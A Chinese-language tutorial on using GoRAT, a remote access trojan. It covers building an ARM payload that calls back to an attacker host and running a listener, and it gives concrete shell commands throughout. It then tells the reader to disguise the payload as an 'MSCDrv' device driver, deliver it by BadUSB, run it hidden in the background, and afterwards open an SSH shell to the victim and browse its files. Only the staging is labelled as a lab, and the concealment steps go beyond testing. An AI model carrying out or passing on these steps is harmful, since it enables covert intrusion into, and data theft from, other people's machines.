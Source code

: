 # GoRAT使用手册

> [GoRAT](https://github.com/JustinTimperio/GoRAT)主要是由Go和Shell语言编写而成，支持生成arm架构下的Payload
>
> > GoRAT uses chisel and gliderlabs ssh server to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”：![image](./GoRAT.assets/goRAT_Architecture.jpg)
>
> > [!NOTE]
> >
> > **攻击者主机**：简记为`A`
> >
> > `ip`：`192.168.59.207`
> >
> > `port`：`8888`
> >
> > **目标靶机**：简记为`V`
> >
> > `架构`：`Phytium-aarch64`(`linux-ARMv8`)

## `A`：GoRAT安装与环境配置

为了不影响本地环境，使用Docker环境进行安装配置。

### 设置Go代理

由于国内安装go语言的mod包时会出现被墙的问题，因此我们在执行：

```shell
git clone git@github.com:JustinTimperio/GoRAT.git
```

将仓库下载下来后，对`./Dockerfile`文件作如下修改：<img src="./GoRAT.assets/image-20240422233609677.png" alt="image-20240422233609677"  />

加入上述Go代理，使得在`Docker`内执行`go mod download -x`时可以正常下载mod包。

### 配置`./config.sh`

在`./config.sh`下配置攻击者主机`A`的`ip`以及`port`以生成可在目标靶机上使用的`payload`：<img src="./GoRAT.assets/image-20240422234924239.png" alt="image-20240422234924239"  />

### 进行构建

在仓库目录下运行：

```shell
./build_payload.sh --docker
```

生成的`payload`位于`./BUILD/payloads`目录下

根据目标靶机`V`的架构，选择`goRAT_v12_linux_arm64_ARM7`作为`payload`

![image-20240423000021814](./GoRAT.assets/image-20240423000021814.png)

### 配置运行监听程序

监听程序位置即：`./scripts/start_server.sh`

- 配置`A`的端口号为`8888`：![image-20240423000759616](./GoRAT.assets/image-20240423000759616.png)

- 运行该程序：<img src="./GoRAT.assets/image-20240423002048992.png" alt="image-20240423002048992" style="zoom:150%;" />

  运行后开始监听。





## `V`：获得`payload`并执行

### 预处理

将生成的二进制文件(`payload`)重命名为`MSCDrv`，掩人耳目为`MSC`设备驱动

### 上载至靶机`V`

即通过`BadUSB`的方式将`payload`传输至目标靶机`V`上

- 将`payload`隐藏至大容量存储设备中
- 将`payload`上载至可访问平台中，通过`BadUSB`从平台上下载

### 在`V`中执行

- 赋予该`payload`执行权限：

  ```shell
  chmod 777 ./MSCDrv
  ```

- 执行下面的命令：

  ```shell
  ./MSCDrv > /dev/null 2>&1 &;exit
  ```

  - 屏蔽输出处理

    - `> /dev/null` 将标准输出重定向到空设备，即丢弃输出

    - `2>&1` 将标准错误输出重定向到标准输出

    这样将所有输出都重定向到空设备 `/dev/null`，这样程序的输出就不会显示在终端上。

  - 后台运行处理

    - 使用 `&` 符号将程序放在后台运行

  - 执行完命令后关闭终端

    - 使用`;exit`后缀形成命令组合

运行后，在`A`上显示控制程序和端口程序的运行端口：![image-20240423001949206](./GoRAT.assets/image-20240423001949206.png)

- 显示控制端口在`41460`运行
- 显示`ssh`在端口`41461`运行



## `A`：执行攻击

### SSH服务器：

该端口上运行的程序用来建立SSH连接。

执行下述命令之一：

```shell
//default
ssh -v localhost -p 41461
//for phytium_pi 
ssh -o HostKeyAlgorithms=ssh-rsa localhost -p 41461
```

即可与目标靶机`V`建立`ssh`连接：

### 控制服务器：

控制服务器利用简单的`http`机制，用于将`/some`页面转换为内部`go`命令。以这种方式，请求网页直接导致在客户端系统上执行代码。虽然这种机制不是很复杂，但它是非常可靠和高性能的。当前`api`具有以下命令：

- `http://localhost:port/`：

  如果主机联机并响应请求，则返回状态代码`OK`

- `http://localhost:port/hardware`：

  在json中报告设备的基本硬件调查

- `http://localhost:port/stop`：

  关闭客户端`payload`而不自毁

- `http://localhost:port/uninstall`：

  终止客户端`payload`并自毁

### 文件服务器：

每个客户端的文件服务器服务由**控制服务器对应端口**提供。从技术角度来看，文件服务器是控制服务器的直接组成部分。

文件和目录可以访问`http://localhost:####/fs/`通过浏览器或wget和curl等工具：





## Tips

### ps1：`A`如何关闭监听程序？

- 先获得对应端口上的程序的`PID`：

  ```shell
  sudo netstat -tulpn | grep :8888
  ```

  <img src="./GoRAT.assets/image-20240423003228915.png" alt="image-20240423003228915" style="zoom:150%;" />

- 杀死比尔：

  ```shell
  kill -SIGKILL 506656
  ```

